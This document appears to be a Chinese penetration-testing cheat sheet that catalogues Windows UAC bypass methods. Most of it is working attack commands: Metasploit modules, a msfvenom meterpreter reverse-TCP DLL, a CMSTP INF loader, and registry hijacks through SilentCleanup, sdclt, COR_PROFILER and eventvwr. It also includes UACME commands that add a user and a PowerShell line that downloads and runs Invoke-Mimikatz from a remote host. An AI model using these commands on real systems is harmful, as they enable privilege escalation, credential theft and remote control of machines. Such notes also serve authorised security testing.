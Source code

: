   #### MSF
	>use exploit/windows/local/bypassuac 
	>use exploit/windows/local/bypassuac_injection
	>use exploit/windows/local/bypassuac_vbs
	>use exploit/windows/local/bypassuac_fodhelper
	>use exploit/windows/local/bypassuac_eventvwr
	>use exploit/windows/local/bypassuac_comhijack
  #### DccwBypassUAC
	Use on win10&win8
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/105.png)
  #### K8uac
	>k8uac.exe xx.exe
	>k8uac.exe "command"
  #### CMSTP
	设置UAC和Applocker规则
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/106.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/107.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/108.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/109.png)

	MSF生成恶意DLL传入靶机
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12138 -f dll -o /var/www/html/cm.dll
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/110.png)

	DLL同目录下建立run.inf，RegisterOCXSection指定dll位置，也可以指定远程webdav
	如：\\192.168.0.107\webdav\cm.dll
	[version]
	Signature=$chicago$
	AdvancedINF=2.5
	[DefaultInstall_SingleUser]
	RegisterOCXs=RegisterOCXSection
	[RegisterOCXSection]
	C:\Users\y.SUB2K8\Desktop\cm.dll
	[Strings]
	AppAct = "SOFTWARE\Microsoft\Connection Manager"
	ServiceName="cmstp"
	ShortSvcName="cmstp"
	执行命令可绕过UAC和Applocker上线
	>cmstp /s run.inf
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/111.png)
  #### Uacme
	包括DLL劫持，COM劫持等50多种bypass方法
	https://github.com/hfiref0x/UACME
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/112.png)

	使用visual studio编译
	Visual Studio 2013v120；
	Visual Studio 2015v140；
	Visual Studio 2017v141;
	Visual Studio 2019v142。
	目前共59种bypassuac方式
	执行方法是
	>akagi.exe 1
	>akagi.exe 1 c:\windows\system32\cmd.exe
	>akagi.exe 1 "net user 1 1 /add"
	注意：
	方式5，9会对目标安全性产生影响，谨慎使用，5需重启
	方式6从win8开始在x64上不可用
	方式11，54只支持x32 
	方式13，19，30，50只支持x64
	方式14需要进程注入，x64要使用x64的工具
  #### Bypass-UAC
	https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC
	>Bypass-UAC -Method UacMethodSysprep
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/113.png)

	Method:
	UacMethodSysprep
	ucmDismMethod
	UacMethodMMC2
	UacMethodTcmsetup
	UacMethodNetOle32
  #### DLL hijack
	程序运行，调用DLL的流程
	1.程序所在目录
	2.系统目录即 SYSTEM32 目录
	3.16位系统目录即 SYSTEM 目录
	4.Windows目录
	5.加载 DLL 时所在的当前目录
	6.PATH环境变量中列出的目录
	使用
	https://docs.microsoft.com/zh-cn/sysinternals/downloads/sigcheck
	检查一个程序的是否以高权限执行
	>sigcheck.exe -m c:\1.exe
	查看autoElevate是否为true
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/114.png)

	使用process monitor查看对应程序执行时调用的DLL情况，查找DLL不在
	HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs列表中，并且所在文件夹当前用户可读写，接下来生成恶意dll备份原DLL替换，再运行此程序即可劫持成功。
  #### SilentCleanup
	>reg add hkcu\Environment /v windir /d "cmd /K reg delete hkcu\Environment /v windir /f && REM "
	>schtasks /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
  #### Sdclt
	win10
  ##### 1
	>reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /t REG_SZ /d %COMSPEC% /f 获得管理员权限
	>sdclt 弹出cmd
	>reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f 清除痕迹
  ##### 2
	https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Invoke-SDCLTBypass.ps1
	>Invoke-SDCLTBypass -Command "c:\windows\system32\cmd.exe /c C:\Windows\regedit.exe"
	>sdclt.exe /KickOffElev
  #### Makecab&Wusa
	复制文件出错时
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/115.png)

	>makecab PsExec64.exe C:\Users\y.ZONE\Desktop\ps.cab
	>wusa C:\Users\y.ZONE\Desktop\ps.cab /extract:C:\Windows\system32\
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/116.png)
  #### CLR BypassUAC
	Tested on win10 x64
	生成dll传入受控机temp目录，以下保存为1.bat执行。
	REG ADD "HKCU\Software\Classes\CLSID\{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}\InprocServer32" /ve /t REG_EXPAND_SZ /d "C:\Temp\test.dll" /f
	REG ADD "HKCU\Environment" /v "COR_PROFILER" /t REG_SZ /d "{FFFFFFFF-FFFF-FFFF-FFFF-FFFFFFFFFFFF}" /f
	REG ADD "HKCU\Environment" /v "COR_ENABLE_PROFILING" /t REG_SZ /d "1" /f
	REG ADD "HKCU\Environment" /v "COR_PROFILER_PATH" /t REG_SZ /d "C:\Temp\test.dll" /f
	受控机执行gpedit.msc或eventvwr等高权限.net程序时可劫持成功。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/117.png)

	执行后
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/118.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/119.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/120.png)
#### eventvwr劫持注册表
	打开ProcessMonitor，启动eventvwr，ctrl+T打开进程树，选择进程转到事件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/121.png)

	右键选择包括eventvwr.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/122.png)

	只选择显示注册表活动
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/123.png)

	添加一条过滤器，显示not found文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/124.png)

	找到相应的注册表位置
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/125.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/126.png)

	值修改为
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/127.png)

	MSF监听，再次打开eventvwr
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/128.png)
#### Web Delivery
	>use exploit/multi/script/web_delivery
	>set target 3
	>set payload windows/x64/meterpreter/reverse_tcp
	>exploit
	>use auxiliary/server/regsvr32_command_delivery_server
	>set cmd ipconfig
	>use exploit/windows/misc/regsvr32_applocker_bypass_server
#### Invoke-PsUACme
	method="sysprep","oobe","ActionQueue","migwiz","cliconfg","winsat","mmc"
	>Invoke-PsUACme -method oobe -Payload "c:\user\a\desktop\x.exe"
	需指定绝对路径
	>Invoke-PsUACme -method oobe -Payload "powershell -w hidden -e xxxxxx"
	>Invoke-PsUACme -Payload "powershell -noexit IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/powersploit/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz"
	MSFVENOM生成psh-reflection格式脚本
	>Invoke-PsUACme –Payload "powershell c:\1.ps1"
